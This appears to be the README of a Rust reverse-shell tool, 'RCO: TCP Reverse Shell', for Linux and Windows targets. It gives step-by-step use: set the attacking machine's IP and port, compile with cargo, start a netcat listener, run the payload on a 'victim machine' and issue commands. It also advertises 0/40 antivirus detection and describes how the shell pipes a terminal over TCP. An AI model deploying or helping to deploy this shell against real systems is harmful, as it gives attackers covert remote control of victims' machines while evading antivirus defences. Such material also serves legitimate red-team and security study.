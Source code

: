 # RCO: TCP Reverse Shell

Linux target               |  Windows target
:-------------------------:|:-------------------------:
![](https://user-images.githubusercontent.com/14863147/151044738-72dbec76-73b1-47c5-831a-2e995673b559.gif)  |  ![](https://user-images.githubusercontent.com/14863147/151058869-8e5e9f6e-3f7b-4a98-ab65-2ac5017a4e76.gif)


## Using it

1. [Not shown in GIF] Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/tcp_reverse_shell/src/config.rs) 
and change the IP address and port to match the IP address of your attacking machine and the port you will use for a listener respectively
2. [Not shown in GIF] Compile the executable

    #### For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```
3. Start a netcat listener on the attacking machine on the same port you configured in step 1
    ```commandline
    nc -nlvp 4444
    ```
4. Execute the payload on the victim machine
5. Return to the listener and enter desired commands for the victim machine to run


## Detection rates

[Linux - 0 / 40](https://kleenscan.com/scan_result/d185d1b1ba09f1a9133b72cb1bb12f177b32f3e65962baf7789b03c968ec8e47)

![image](https://user-images.githubusercontent.com/14863147/151023219-84d7ab95-002e-4d20-89c7-264894d72683.png)

[Windows - 0 / 40](https://kleenscan.com/scan_result/e9ffcf8fffd390b68a4cbc9d506571f0618e473732015be748e1960300bc6a85)

![image](https://user-images.githubusercontent.com/14863147/151023325-d917df57-18ce-4e99-b059-968a479b65ce.png)


## How it works

Both RCO's Linux and Windows TCP reverse shells work by establishing a [TCP session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process is spun up with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)), [standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that input commands and output results are read from and written to (respectively) the TCP stream.
